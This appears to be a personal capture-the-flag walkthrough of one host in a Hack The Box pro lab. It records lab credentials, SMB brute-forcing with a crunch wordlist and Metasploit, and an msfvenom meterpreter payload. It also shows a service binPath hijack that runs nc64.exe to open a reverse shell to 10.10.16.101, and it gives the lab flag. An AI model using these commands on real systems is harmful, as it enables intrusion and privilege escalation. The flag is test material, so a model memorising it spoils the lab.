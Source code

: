 Host [172.16.1.101](http://172.16.1.101):

![[./_resources/HTB_Pro_Lab_Dante.resources/image.33.png]]

![[./_resources/HTB_Pro_Lab_Dante.resources/image.70.png]]

The credentials for FTP are:
```
tmentrso 65RedBalloons
```

For some reason, hydra, msfconsole could not guess this despite using the wordlists. I should find out why as I had to manually login with each uname and password from the excel file previously obtained from DC01.

After opening the downloaded file (remote login.txt), I obtained the following information.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.75.png]]

The password I found that has '5!' is balthazar's password.:
```
TheJoker12345!
```

Consider user 'tmodle' and the password from the above excel sheet from DC01 as well.

![[./_resources/HTB_Pro_Lab_Dante.resources/image.76.png]]

The correct credentials are:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.77.png]]
However, there was nothing in there. So I created a wordlist to find the correct smb password to access the account for dharding.:
```
crunch 19 19 -t WestminsterOrange%% -o crunch.txt
```

After running the auxiliary/scanner/smb/smb\_login module with the newly created wordlist, I found the right one.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.78.png]]

```
Password: WestminsterOrange17
```

I found a file called qc that when opened, showed the following.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.79.png]]
In searching online, I quickly found out about an exploit for this service.:
<https://www.exploit-db.com/exploits/48543>

Command I used in MSF to generate the payload. From here, I need to set lport and lhost and run it to serve it publicly.:
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o IObit.exe
```

In this case, I am unable to transfer the file I created to the machine. I think I need to update THAT policy in order to allow this to actually go through.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.80.png]]

It took me a while to understand this. But basically, I need to modify the system path for the vulnerable service so it executes a payload for a reverse shell when it's restarted. To do this, I can upload nc.exe to the Desktop of dharding. From there, I need to change the path to the IOBitUnsvr with the following string.:
```
SC.exe CONFIG IObitUnsvr binPath= "C:\Users\dharding\Desktop\nc64.exe 10.10.16.101 4444 -e cmd.exe"
```
I found out that the reason I was having so much trouble was that I had been using the wrong netcat! I downloaded the nc64.exe and that worked flawlessly.
![[./_resources/HTB_Pro_Lab_Dante.resources/image.81.png]]

```
DANTE{Qu0t3_I_4M_secure!_unQu0t3}
```
